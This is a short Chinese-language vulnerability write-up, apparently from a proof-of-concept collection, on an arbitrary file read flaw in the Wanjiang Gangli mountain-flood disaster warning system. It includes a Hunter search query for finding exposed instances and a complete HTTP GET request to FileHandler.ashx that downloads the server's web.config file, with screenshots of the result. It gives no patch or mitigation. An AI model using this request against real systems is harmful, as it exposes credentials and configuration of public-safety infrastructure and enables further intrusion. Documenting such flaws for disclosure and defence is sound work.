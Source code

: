 # 万江港利山洪灾害预警系统FileHandler存在任意文件读取漏洞

# 一、漏洞简介
万江港利山洪灾害防治预警系统软件是对空间信息技术、计算机网络技术、现代通信技术进行无缝集成，结合灾害监测预警的业务需求，采用世界领先GIS地理信息处理技术、RS遥感技术、GPRS/CMDA/3G通讯技术、Microsoft Silverlight Web前端应用程式开发解决方案、以及大容量数据采集技术和大容量数据存储等计算机网络通信与数据处理技术，建立一个用户界面友好的、多终端的、可定制的、集数据采集、存储、分析于一体的综合地理信息平台。该系统存在任意文件读取漏洞，攻击者可获取大量敏感信息。

# 二、影响版本
+ 万江港利山洪灾害防治预警系统

# 三、资产测绘
+ hunter`web.body="万江港利"&&web.body="山洪灾害"`
+ 特征

![1707060667669-c1ce32a0-4c8f-48f5-8702-058ae589fffa.png](./img/A2AaAQ5sO23Cp0KK/1707060667669-c1ce32a0-4c8f-48f5-8702-058ae589fffa-102132.png)

# 四、漏洞复现
```plain
GET /Service/FileHandler.ashx?Action=Download&FileDirectory=E:/SCWJ/Official/Web/MFCW/&FileName=web.config&FileSourceName=web HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 6.2) AppleWebKit/532.1 (KHTML, like Gecko) Chrome/41.0.887.0 Safari/532.1
Host: 
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
```

![1707060726033-c1ac27d9-a692-4c07-8089-79dba4b37fea.png](./img/A2AaAQ5sO23Cp0KK/1707060726033-c1ac27d9-a692-4c07-8089-79dba4b37fea-174339.png)



> 更新: 2024-02-29 23:55:41  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/oeggkvpxmlddh3qv>